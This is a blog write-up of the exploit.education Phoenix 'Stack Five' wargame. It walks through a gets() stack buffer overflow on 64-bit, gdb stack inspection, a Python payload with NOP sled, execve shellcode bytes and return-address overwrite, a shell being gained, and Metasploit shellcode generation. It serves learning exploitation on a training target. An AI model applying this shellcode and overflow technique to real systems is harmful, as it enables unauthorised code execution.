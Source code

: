 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x5"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 5

Write-up for: [Stack Five](https://exploit.education/phoenix/stack-five/)

<!--more-->

We will use this example as an intro to 64-bit exploitation (mostly because I failed the 32-bit version :P)

1. Identify the vulnerability

The call to `gets` in `start_level` is not bounds-checked. Thus, we can overflow the `buffer` variable by providing input longer than 128 bytes. The goal is to overwrite the stored return address and jump to our own shellcode.

2. Plan of action

Since there is no ASLR and the stack is executable, our payload should look something like this on the stack:

```
[NOP sled]
[execve("/bin/dash") shellcode]
[NOP padding]
[Address of buffer to return to NOP sled]
```

3. Exploit development

In order to exploit this bug, we must first find the address of the buffer and, more importantly, the offset of the return address. We'll use gdb:

```
(gdb) disas main
Dump of assembler code for function main:
0x00000000004005a4 <+0>:     push   %rbp
0x00000000004005a5 <+1>:     mov    %rsp,%rbp
0x00000000004005a8 <+4>:     sub    $0x10,%rsp
0x00000000004005ac <+8>:     mov    %edi,-0x4(%rbp)
0x00000000004005af <+11>:    mov    %rsi,-0x10(%rbp)
0x00000000004005b3 <+15>:    mov    $0x400620,%edi
0x00000000004005b8 <+20>:    callq  0x400400 <puts@plt>
0x00000000004005bd <+25>:    mov    $0x0,%eax
0x00000000004005c2 <+30>:    callq  0x40058d <start_level>
0x00000000004005c7 <+35>:    mov    $0x0,%eax
```

To find the stack address of the stored return address we can set a breakpoint
in `start_level` and inspect the stack. On the stack, we are looking for `4005c7`because this is where we will return to.
We can additionally provide some input to the program to find the address of the `buffer` variable.

```
(gdb) break start_level
Breakpoint 1 at 0x400591

(gdb) disas start_level
Dump of assembler code for function start_level:
0x000000000040058d <+0>:     push   %rbp
0x000000000040058e <+1>:     mov    %rsp,%rbp
=> 0x0000000000400591 <+4>:     add    $0xffffffffffffff80,%rsp
0x0000000000400595 <+8>:     lea    -0x80(%rbp),%rax
0x0000000000400599 <+12>:    mov    %rax,%rdi
0x000000000040059c <+15>:    callq  0x4003f0 <gets@plt>
0x00000000004005a1 <+20>:    nop
0x00000000004005a2 <+21>:    leaveq
0x00000000004005a3 <+22>:    retq
End of assembler dump.

(gdb) break *start_level+20
Breakpoint 2 at 0x4005a1

(gdb) c
Continuing.
AAAAA

Breakpoint 2, 0x00000000004005a1 in start_level ()

(gdb) x/64xw $rsp
0x7fffffffe490: 0x41414141      0x00000041      0x00400620      0x00000000
0x7fffffffe4a0: 0x004005a4      0x00000000      0x00000000      0x00000000
0x7fffffffe4b0: 0x00000000      0x00000000      0xf7db6dde      0x00007fff
0x7fffffffe4c0: 0x004005a4      0x00000000      0x00680037      0x00000000
0x7fffffffe4d0: 0x00000000      0x00000000      0xf7db6b1e      0x00007fff
0x7fffffffe4e0: 0xf7ffb300      0x00007fff      0x00000000      0x0a000000
0x7fffffffe4f0: 0xf7ffb300      0x00007fff      0xf7db9934      0x00007fff
0x7fffffffe500: 0xffffe588      0x00007fff      0xffffe530      0x00007fff
0x7fffffffe510: 0xffffe530      0x00007fff      0x004005c7      0x00000000
0x7fffffffe520: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe530: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe540: 0x00000000      0x00000000      0xffffe580      0x00007fff
0x7fffffffe550: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
0x7fffffffe560: 0x00003e00      0x04000001      0x00400459      0x00000000
0x7fffffffe570: 0x00000000      0x00000000      0x00400436      0x00000000
0x7fffffffe580: 0x00000001      0x00000000      0xffffe7cc      0x00007fff
```

First, we break on `start_level` to then disassemble the function to find the end of the function. Note that we could have directly disassembled the function saving us one breakpoint. We run the program with some valid input. Then we inspect the stack (note, it's `$rsp` instead of `$esp`. We're dealing with a 64-bit register now).

Inspecting the stack gives us the following data:

- buffer address: 0x7fffffffe490
- return address location: 0x7fffffffe518 
- offset: 136

Using this information we can craft a payload:

```python
buf = "\x90" * 20
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
buf += "\x90"* (136 - len(buf)) + "\x7f\xff\xff\xff\xe4\xe0"[::-1]
print buf
```

The shellcode is from http://shell-storm.org/shellcode/files/shellcode-806.php

We start with a NOP sled to give us some flexibility with the exact location of the shellcode. Next, we place our shellcode in the buffer. This is what will be executed later. We fill the remaining space of the buffer with NOPs and overwrite the non-null part of the stored return address with what we believe is an address somewhere in our NOP sled. 

It's very important to note that the location of the stack might differ in gdb since it places additional environment variables before the stack.
To emulate a more realistic execution environment, you can unset these variables in gdb before executing the program:

```
unset env LINES
unset env COLUMNS
```

See also: https://reverseengineering.stackexchange.com/questions/2995/illegal-instruction-exploiting-sample-buffer-overflow-code

Even then, some experimentation with the return address and the length of the NOP slide might be required.

# Exploit

Now we are ready to run the exploit:

```
user@phoenix-amd64:/opt/phoenix/amd64$ python ~/stack-five.py > ~/stack-five
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-five < ~/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
user@phoenix-amd64:/opt/phoenix/amd64$
```

Nothing happened? The reason is that using input redirection with `<` immediately terminates the program once the end of input is reached. Instead we need to pipe in the input with `cat ~/stack-five - | ./stack-five`. The `-` keeps stdin open. 

```
user@phoenix-amd64:/opt/phoenix/amd64$ whoami
user
user@phoenix-amd64:/opt/phoenix/amd64$ cat ~/stack-five - | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

We popped a shell! Awesome :)

# Alternative, generate shellcode with metasploit 
```
  use payload/linux/x64/exec
  info
  set CMD /bin/sh
  info
  generate -b '\x00' -f python
```
